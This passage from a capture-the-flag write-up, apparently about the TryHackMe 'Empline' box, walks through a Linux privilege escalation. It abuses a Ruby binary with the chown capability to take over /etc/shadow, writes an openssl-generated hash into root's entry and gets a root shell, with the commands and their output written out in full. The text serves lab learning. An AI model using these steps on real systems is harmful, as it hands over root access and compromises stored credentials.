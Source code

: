 # Privilege Escalation

```
Files with capabilities (limited to 50):
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/local/bin/ruby = cap_chown+ep
```

Linpeas detected ‘chown’ capability using ruby application. Let’s change the

```
(remote) george@empline:/home/george$ echo -n 'File.chown(1002, 1002, "/etc/shadow")' > chown.rb

(remote) george@empline:/home/george$ ls -la /etc/shadow
-rw-r----- 1 root shadow 1081 Jul 20 19:48 /etc/shadow

(remote) george@empline:/home/george$ ruby chown.rb

(remote) george@empline:/home/george$ ls -la /etc/shadow
-rw-r----- 1 george george 1081 Jul 20 19:48 /etc/shadow
```

As you can see, ‘shadow’ file owner has changed to ‘george’ user. Now we add new hash to root user (not recommended for pentest), rather create a new user and give root privileges. As I am on private instance of THM, it barely matters even if I change the root password.

```
(remote) george@empline:/home/george$ openssl passwd -6 -salt 'test'
Password:
$6$test$bzcdZcb/7XNcrHf09O9O89Vnd8x5hnOsG3cn8C5JyeBhbCyVhZIJS68.DP2LGUsx/6tpfbjmAcFgnUeUT6j120
```

Using openssl we can generate new password hash.

- \-6 : SHA512 Algorithm
- \-salt : Add salt to hash and ‘test’ is salt
- Do not pass the password directly from command line, as this command will be stored in history it will be visible.

Now edit the ‘shadow’ file and replace the existing hash with your new hash.

```
(remote) george@empline:/home/george$ grep 'root' /etc/shadow
root:$6$test$bzcdZcb/7XNcrHf09O9O89Vnd8x5hnOsG3cn8C5JyeBhbCyVhZIJS68.DP2LGUsx/6tpfbjmAcFgnUeUT6j120:18828:0:99999:7:::

(remote) george@empline:/home/george$ su -
Password:

root@empline:~# id
uid=0(root) gid=0(root) groups=0(root)
```

We got root access.

# Add user with root privileges
